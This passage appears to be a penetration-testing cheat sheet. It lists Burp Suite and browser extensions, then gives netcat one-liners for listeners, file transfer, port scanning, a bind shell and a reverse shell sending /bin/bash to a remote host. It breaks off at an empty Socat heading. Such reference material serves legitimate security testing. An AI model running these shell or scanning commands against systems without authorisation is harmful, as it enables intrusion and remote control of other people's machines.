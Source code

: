 
**Cool extensions**

- [Upload Scanner](https://portswigger.net/bappstore/b2244cbb6953442cb3c82fa0a0d908fa)
- [BurpJSLinkFinder](https://github.com/InitRoot/BurpJSLinkFinder)
- [JS Miner](https://portswigger.net/bappstore/0ab7a94d8e11449daaf0fb387431225b)
- [403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)
- [Autorize](https://github.com/PortSwigger/autorize)
- [Anonymous Cloud](https://portswigger.net/bappstore/ea60f107b25d44ddb59c1aee3786c6a1)
- [Software Version Reporter](https://portswigger.net/bappstore/ae62baff8fa24150991bad5eaf6d4d38)
- [Software Vulnerability Scanner](https://portswigger.net/bappstore/c9fb79369b56407792a7104e3c4352fb)
- [IP Rotate](https://portswigger.net/bappstore/2eb2b1cb1cf34cc79cda36f0f9019874)
- [Active Scan++](https://portswigger.net/bappstore/3123d5b5f25c4128894d97ea1acc4976)
- [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
- [InQL](https://portswigger.net/bappstore/296e9a0730384be4b2fffef7b4e19b1f)
- [Wsdler](https://github.com/NetSPI/Wsdler)
- [Swagger-EZ](https://github.com/RhinoSecurityLabs/Swagger-EZ)
- [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)
- [Turbo Intruder](https://github.com/PortSwigger/turbo-intruder)
- [HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler)
- [BurpCustomizer](https://github.com/CoreyD97/BurpCustomizer)
- [Burp Bounty](https://burpbounty.net/)

**Browser extensions**
- [Trufflehog Chrome Extension](https://github.com/trufflesecurity/Trufflehog-Chrome-Extension)
- [Wappalyzer](https://www.wappalyzer.com/)
- [DotGit](https://github.com/davtur19/DotGit)
- [Cookie-Editor](https://cookie-editor.cgagnier.ca/)
- [Shodan for Chrome](https://chrome.google.com/webstore/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap) and [for Firefox](https://addons.mozilla.org/en-US/firefox/addon/shodan_io/)
- If you are using FireFox, you could use [FoxyProxy](https://getfoxyproxy.org/)


## Netcat

**Misc Commands**
```
nc -nv <IP> <port>                                                       Connect to a TCP port
nc -nlvp <port>                                                          Set up a listener
nc -nv <IP> <port>                                                       Connect to a listener
nc -nlvp <port> > incoming.exe                                           Receive a file
nc -nv <IP> <port> < /usr/share/windows-resources/binaries/wget.exe      Transfer a file
nc -nlvp <port> -e cmd.exe                                               Set up a bind shell
nc -nv <IP> <port> -e /bin/bash                                          Send a reverse shell
```

**Port Scanning**
```
nc -nvv -w 1 -z <IP> <PORT-RANGE>                        Use netcat to perform a TCP port scan
nc -nv -u -z -w 1 <IP> <PORT-RANGE>                      Use netcat to perform an UDP port scan
```

## Socat
